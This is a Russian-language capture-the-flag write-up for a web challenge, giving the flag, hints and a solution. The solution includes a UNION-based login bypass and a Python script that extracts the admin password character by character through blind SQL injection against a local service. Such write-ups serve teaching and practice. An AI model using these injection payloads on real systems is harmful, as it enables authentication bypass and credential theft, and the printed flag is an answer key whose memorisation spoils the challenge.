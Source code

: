 # Название: So Qomplicated Language
#### Флаг: **CTF{y0u_w1ll_n3v3r_l1ke_sql_aga1n}**
### ВЫДАТЬ УЧАСТНИКАМ sources.zip
## Описание
Мы слишком очень много всё переусложнили... в эту систему не смог пролезть даже хакер, взломавший нас, но он хорошо там наследил
### Хинты
* UNION?
* i LIKE %%%%% UNION и еще люблю очень много раз сравнивать символы (казалось бы, зачем?)
### Решение
Вход: Видим SQL-инъекцию в поле username, но password в sql не вставляется. Можем вернуть фейковый пароль через UNION.  
Получение флага: видим, что флаг находится в пароле юзера admin_[рандомная строка]. Получить можем его через LIKE 'admin%' (берёт строки, начинающиеся с admin, а админ по коду сервиса всего один).
Но вывода у нас нет. Поэтому кидаем результат от сравнения символов в список персонала и таким образом получаем обратную связь.  
Решение на python:
```python
import string

import requests

s = requests.Session()

s.post('http://127.0.0.1:6107/login', data={
    'username': """nonexistentuser' UNION SELECT "fakepassword" -- """,
    'password': 'fakepassword',
})

print('1. Логинимся, "подсовывая" свой пароль в SQL-транзакцию')
print('Получены cookies:')
print(s.cookies)
print()


def latest_resp():
    d = s.get('http://127.0.0.1:6107/')
    found = None
    for line in d.text.splitlines(keepends=False):
        if '<td>' in line:
            found = line
    found = found.replace('<td>', '').replace('</td>', '').replace(' ', '').replace('   ', '')
    return bool(int(found))


def send_request(r):
    s.post('http://127.0.0.1:6107/add', data={
        'name': r,
    })


print('2. Подбираем пароль по символу')


def one_step(src):
    base_query = """b' LIKE 'a' OR ((SELECT password FROM users WHERE username LIKE 'admin%') LIKE '[REPL]%')) --  """
    LETT = None
    for letter in string.ascii_letters + string.digits + r"""!"#$&'()*+,-./:;<=>?@[\]^`{|}~_""":  # все из string.punctuation кроме % (спецсимвол) и _ перенесли в конец
        query = base_query.replace('[REPL]', src + letter)
        send_request(query)
        if latest_resp():
            LETT = letter
            break
    return LETT


src0 = ""
while True:
    src0 += one_step(src0)
    print(src0)
```
Запустим решение:
![](solver_script.png)
